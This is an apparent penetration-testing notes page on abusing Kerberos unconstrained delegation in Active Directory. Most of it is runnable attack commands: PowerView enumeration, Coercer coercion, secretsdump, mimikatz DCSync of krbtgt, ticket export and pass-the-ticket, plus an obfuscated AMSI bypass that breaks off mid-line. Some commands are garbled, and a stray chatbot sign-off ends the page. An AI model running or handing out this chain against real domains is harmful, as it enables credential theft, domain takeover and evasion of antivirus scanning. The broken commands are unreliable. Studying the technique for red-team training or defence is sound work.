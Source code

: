 # Kerberos Unconstrained Delegation

## **Kerberos Unconstrained Delegation**

> General/Basic or Unconstrained Delegation which allows the first hop server (web server in our example) to request access to any service on any computer in the domain.

**Required**

1. Define Unconstrained Delegation Machines
2. we need to user who has Access to the machine

Essentially this looks like so: **`User`** --- authenticates to ---> **`IIS server`** ---> authenticates on behalf of the user ---> **`DB server`**

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

#### define Unconstrained Machines

{% code overflow="wrap" %}
```powershell
#using PowerView
Get-NetComputer -Unconstrained
Get-DomainComputer -UnConstrained
Get-DomainComputer -Unconstrained -Properties DnsHostName
Get-DomainComputer -unconstrained | select samaccountname
# using Import-Module ActiveDirectory 
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
Get-ADComputer -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
Get-ADComputer "IIS" -Properties TrustedForDelegation, TrustedToAuthForDelegation,msDS-AllowedToDelegateTo,PrincipalsAllowedToDelegateToAccount

```
{% endcode %}

{% hint style="info" %}
<mark style="color:orange;">**Hint**</mark>**: discover users that who you have WriteDACL permission on there or do Enumeration to get user**
{% endhint %}

Rubeus

{% embed url="https://github.com/r3motecontrol/Ghostpack-CompiledBinaries" %}

```powershell
.\Rubeus.exe ptt /tikcet: base64.exe  monitor /monitornterval:10 /targetuser$ /nowarp
.\Rubeus.exe ptt /tikcet: base64 
#OR
cat b64.txt|base64 -d > ticket.kirbi 
```

### Coercer

{% code overflow="wrap" %}
```bash
coerce -u arya.stark -d north.sevenkingdoms.local -p 'Needle' -t kingslanding.sevenkingdoms.local -l winterfell --always-continue

```
{% endcode %}

{% code overflow="wrap" %}
```bash
sudo impacket-secretsdump -k -no-pass SEVENKINGDOMS.LOCAL/'KINGSLANDING$'@KINGSLANDING
```
{% endcode %}

mimikatz

{% code overflow="wrap" %}
```powershell
mimikatz.exe "privilege::debug" "kerberos::ptt PDC.kirbi" "lsadump::dcsync /domain:hacktor.local /user:Administrator" "exit"
#Once the ticket is injected, run DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
{% endcode %}

now enumerating the computers which have unconstrained delegation enabl



```markdown
.\powerview.ps1
Get-NetComputer -Unconstrained
```

* Example output: We find the computer `WIN-Q4788GPE9L7` with unconstrained delegation enabled.



#### Step 2: Find Local Admin Access

```powershell
Find-LocalAdminAccess
```

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* Output: Our user has local admin access to the computer with unconstrained delegation.

#### Step 3: Enable PowerShell Remoting

```powershell
Enable-PSRemoting
```

#### Step 4: Create and Use a PowerShell Session

```powershell
$sess = New-PSSession -ComputerName WIN-Q4788GPE9L7
Invoke-Command -FilePath ..\..\rem01x.crtp\Desktop\tools\Invoke-Mimikatz.ps1 -Session $sess
Enter-PSSession -Session $sess
```

* Bypass AMSI:

```powershell
$amsiBypass = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic,Static')
$amsiBypass.SetValue($null, $true)


S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U')
```

<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

#### Step 5: Dump Secrets and List Tickets

```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Step 6: Export Tickets

```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

<figure><img src="../../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

* Example output: Administrator `.kirbi` file.

#### Step 7: Monitor Actions on the Machine

```powershell
Invoke-UserHunter -ComputerName WIN-Q4788GPE9L7 -UserAdminCount -Delay 5 -Verbose
```

<figure><img src="../../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

* Output: Administrator account detected.

#### Step 8: Pass the Ticket to Memory and Impersonate the User

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\Administrator\kerb\[0;120dde]-2-0-60a10000-Administrator@krbtgt-CRTP.LOCAL.kirbi"'
```

<figure><img src="../../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

* Result: We are now the administrator on the machine.

### Deep Dive into Unconstrained Delegation

#### Process Overview

1. Vegeta wants to access the `server web01` to list folders.
2. The `web01` process impersonates Vegeta and creates a new thread with Vegeta's credentials.
3. The server accesses the intended folder with the impersonated thread.

#### Configuration

To list computers with unconstrained delegation:

```powershell
Get-NetComputer -Unconstrained | select cn,useraccountcontrol
```

#### Network Traffic (Wireshark Capture)

1. Client requests a TGT.
2. Domain controller responds with the TGT.
3. Client requests a service ticket (TGS) for the web application.
4. Domain controller responds with the TGS.
5. Client requests another TGT to delegate to the web service.
6. Domain controller responds with a copy of the user TGT.
7. The application request goes to the web server.
8. The web service requests a TGS for the SQL server using the client's TGT.
9. Domain controller responds with the TGS.
10. Access is granted and the database server is successfully accessed.
11. Application replies.

### Abusing Unconstrained Delegation

Continue monitoring and exploitation using appropriate PowerShell commands and tools.

```

Feel free to ask if you need any specific parts of the content modified or expanded!
```
